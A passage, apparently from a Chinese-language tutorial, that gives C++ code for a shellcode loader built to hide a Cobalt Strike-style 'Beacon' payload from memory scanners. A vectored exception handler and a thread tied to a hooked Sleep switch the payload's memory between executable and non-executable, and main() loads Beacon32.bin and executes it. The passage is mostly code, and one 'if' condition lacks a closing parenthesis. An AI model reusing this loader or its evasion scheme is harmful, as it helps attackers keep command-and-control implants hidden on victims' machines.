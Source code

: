 然后就是注册异常函数，这个异常函数就是为了恢复可执行内存属性。

is\_Exception函数就是为了验证是不是在申请空间内的范围呢出现异常，而不是其他内存空间。

```c++
LONG NTAPI PvectoredExceptionHandler(PEXCEPTION_POINTERS ExceptionInfo){
    printf("异常错误码:%x\n", ExceptionInfo->ExceptionRecord->ExceptionCode);
    printf("线程地址:%lx\n", ExceptionInfo->ContextRecord->Eip);
    if (ExceptionInfo->ExceptionRecord->ExceptionCode == 0xc0000005 && is_Exception(ExceptionInfo->ContextRecord->Eip) {
        printf("恢复可执行内存属性");
        VirtualProtect(Beacon_address, Beacon_len, PAGE_EXECUTE_READWRITE, &Beacon_flOldProtect);
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    return EXCEPTION_CONTINUE_SEARCH;
}
```

起一个线程，让他不断地去等待Sleep函数通知，通知后就将内存空间重新设置为不可执行。线程控制的话就用到了事件。

```c++
DWORD WINAPI SetNoExecutable(LPVOID lpParameter) {
    while (true)
    {
        //等待解锁
        WaitForSingleObject(hEvent, INFINITE);
        printf("设置Beacon内存属性不可执行\n");
        VirtualProtect(Beacon_address, Beacon_len, PAGE_READWRITE, &Beacon_flOldProtect);
        //设置事件为未被通知的，重新上锁
        ResetEvent(hEvent);
    }
}

int main()
{
    //设置事件为有信号的，处于通知状态。
    hEvent = CreateEvent(NULL,TRUE,false,NULL);
    AddVectoredExceptionHandler(1, &PvectoredExceptionHandler);
    hookVirtualAlloc();
    hookSleep();

    unsigned char* BinData = NULL;
    size_t size = 0;
    char* szFilePath = (char*)"Beacon32.bin";
    BinData = ReadBinaryFile(szFilePath, &size);
    shellcode_addr = VirtualAlloc(NULL, size, MEM_COMMIT, PAGE_READWRITE);
    memcpy(shellcode_addr, BinData, size);
    VirtualProtect(shellcode_addr, size, PAGE_EXECUTE_READWRITE, &Beacon_flOldProtect);
    HANDLE hThread1 = CreateThread(NULL, 0, SetNoExecutable, NULL, 0, NULL);
    CloseHandle(hThread1);
    (*(int(*)()) shellcode_addr)();

}
```
